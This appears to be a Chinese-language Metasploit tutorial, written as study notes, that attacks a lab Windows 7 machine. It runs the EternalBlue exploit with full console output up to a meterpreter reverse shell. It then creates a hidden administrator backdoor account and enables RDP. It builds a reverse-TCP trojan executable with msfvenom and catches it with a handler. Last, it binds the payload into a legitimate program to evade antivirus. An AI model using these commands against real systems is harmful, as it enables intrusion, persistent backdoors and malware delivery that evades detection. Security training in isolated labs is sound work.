





## Kali最强渗透工具 Metesploit

启动方法：

```bash
┌──(root㉿kali)-[/home/kali]
└─# msfconsole 
......
# msf6: MeteSploit 版本6
msf6 > 
```

msf使用法则：

​	使用模块

​	配置模块必选项

​	运行模块

三步操作，就能实现对主流漏洞的攻击


### 例：永恒之蓝攻击

名词解释：

exploit 漏洞攻击脚本

payload 攻击载荷（起实际作用的东西）

例：发射火箭，payload为卫星体，expload为助推器


1. 搜索模块

```bash
msf6 > search ms17_010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description                                                                          
   -  ----                                      ---------------  ----     -----  -----------                                                                          
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption                       
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution                                                                                                                                                                   
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution                                                                                                                                                                
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection                     
```

2. 使用模块

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

3. 查看配置选项

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedd
                                             ed Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded S
                                             tandard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7
                                             target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.136  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```

4. 配置模块

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.220.135
RHOSTS => 192.168.220.135
# 以下为默认配置，如无需改变可不设置
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

5. 检查配置

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options 

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.220.135  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedd
                                             ed Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded S
                                             tandard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7
                                             target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.220.136  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```

6. 运行脚本

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.220.136:4444 
[*] 192.168.220.135:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.220.135:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.220.135:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.220.135:445 - The target is vulnerable.
[*] 192.168.220.135:445 - Connecting to target for exploitation.
[+] 192.168.220.135:445 - Connection established for exploitation.
[+] 192.168.220.135:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.220.135:445 - CORE raw buffer dump (42 bytes)
[*] 192.168.220.135:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 192.168.220.135:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 192.168.220.135:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 192.168.220.135:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.220.135:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.220.135:445 - Sending all but last fragment of exploit packet
[*] 192.168.220.135:445 - Starting non-paged pool grooming
[+] 192.168.220.135:445 - Sending SMBv2 buffers                                                                                                                       
[+] 192.168.220.135:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.                                                                       
[*] 192.168.220.135:445 - Sending final SMBv2 buffers.                                                                                                                
[*] 192.168.220.135:445 - Sending last fragment of exploit packet!                                                                                                    
[*] 192.168.220.135:445 - Receiving response from exploit packet                                                                                                      
[+] 192.168.220.135:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!                                                                                  
[*] 192.168.220.135:445 - Sending egg to corrupted connection.                                                                                                        
[*] 192.168.220.135:445 - Triggering free of corrupted buffer.                                                                                                        
[*] Sending stage (200262 bytes) to 192.168.220.135                                                                                                                   
[*] Meterpreter session 1 opened (192.168.220.136:4444 -> 192.168.220.135:49160 ) at 2022-07-29 08:00:52 -0400
[+] 192.168.220.135:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.220.135:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.220.135:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter >  
```

#### meterpreter

meterpreter是强大的后渗透模块，可输入 help 查看帮助选项

可进行：远程控制、命令执行、摄像头监控、创建后门用户、破坏篡改系统等操作


### 创建后门用户并开启远程连接：

```bash
# Get Shell
meterpreter > shell
Process 1276 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

# 解决中文乱码问题
C:\Windows\system32>chcp 65001		
chcp 65001
Active code page: 65001

# 创建用户
C:\Windows\system32>net user zhangsan 123456 /add 	
net user zhangsan 123456 /add
The command completed successfully.

# 将zhangsan添加到Administrators组
C:\Windows\system32>net localgroup Administrators zhangsan /add	
net localgroup Administrators zhangsan /add
The command completed successfully.

C:\Windows\system32>exit
exit

# 启用RDP
meterpreter > run getgui -e

[!] Meterpreter scripts are deprecated. Try post/windows/manage/enable_rdp.
[!] Example: run post/windows/manage/enable_rdp OPTION=value [...]
[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     Terminal Services service is already set to auto
[*]     Opening port in local firewall if necessary
[*] For cleanup use command: run multi_console_command -r /home/kali/.msf4/logs/scripts/getgui/clean_up__20220730.3929.rc

# 退出
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.220.135 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(windows/smb/ms17_010_eternalblue) > exit
                                                                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ eterpreter > 
```


### 使用msfvenom生成远控木马

msfvenom是用来生成后门的软件，在目标机上执行后门，在本地监听上线。

*：msfvenom在shell中使用，不是在msfconsole终端




```
┌──(root㉿kali)-[~]
└─# pwd
/root
                                                                                                                                                                      
┌──(root㉿kali)-[~]
└─# cd /home 
                                                                                                                                                                      
┌──(root㉿kali)-[/home]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.220.136 lport=10000 -f exe -o demo10000.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: demo10000.exe
```

此时，Home目录下已成功生成demo10000.exe




此时尝试直接将demo10000.exe复制到Windows，安全软件会自动拦截并处理



暂时先加入信任列表，并从隔离区恢复文件。


此时Kali中的10000端口还没启用，无法监听：

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
```

```
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

配置选项

```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.220.136
lhost => 192.168.220.136
msf6 exploit(multi/handler) > set lport 10000
lport => 10000
```

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.220.136:10000 

# 然后到被攻击的机器中打开demo10000.exe

[*] Sending stage (200262 bytes) to 192.168.220.135
[*] Meterpreter session 1 opened (192.168.220.136:10000 -> 192.168.220.135:49161 ) at 2022-07-30 03:20:55 -0400

# 即可get shell
meterpreter > 

```


### 免杀

#### 捆绑（效果不强）

将demo10000捆绑到 FileTags.exe中：

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.220.136 lport=10000 -x FileTags.exe -f exe -o demo10000.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 2677248 bytes
Saved as: demo10000.exe
```


#### 加壳






